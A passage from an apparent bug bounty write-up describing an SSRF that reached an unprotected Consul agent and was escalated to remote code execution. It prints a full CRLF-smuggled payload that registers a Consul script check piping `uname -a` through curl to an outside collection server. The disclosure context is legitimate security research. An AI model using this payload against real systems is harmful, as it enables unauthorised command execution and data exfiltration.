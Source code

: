 ![Lookin good!](/assets/article_images/2017/consul-http-get-sanitized.png){: .center-image }

A few anxious moments later, I saw a successful HTTP PUT against my testing server with a User-Agent of `Consul Health Check`, confirming that this was both a Consul agent and that ACLs weren't applied to the `check` endpoint!

In order to confirm whether I **could** use this to pop a shell on the remote system (without actually popping a shell, given that this was a bounty program not a red team exercise), I modified the request slightly; replacing the `http` check with a `script` check configured it to pipe the result of `uname -a` into an HTTP POST request using CURL. The final payload looked something like the following:

```
http://127.0.0.1:8500/? HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /v1/agent/check/register HTTP/1.1\r\nHost: example.org\r\nContent-Length: 195\r\n\r\n\u007B\u0022id\u0022: \u0022BugCrowdDarkarnium\u0022,\u0022name\u0022: \u0022BugCrowdDarkarnium\u0022,\u0022script\u0022: \u0022/bin/uname -a | /usr/bin/curl -k -XPOST -d @- https://some-server/writer/writer.php?f=uname\u0022,\u0022interval\u0022: \u002260s\u0022,\u0022timeout\u0022: \u00225s\u0022\u007D
```

Once again, I dropped this new payload into the "URL" field and submitted the payload, waiting anxiouslyt to see whether it'd execute the command and send the output back over HTTPS...

A few moments later, I heard a ping from my Nginx logs which confirmed that I had an RCE!
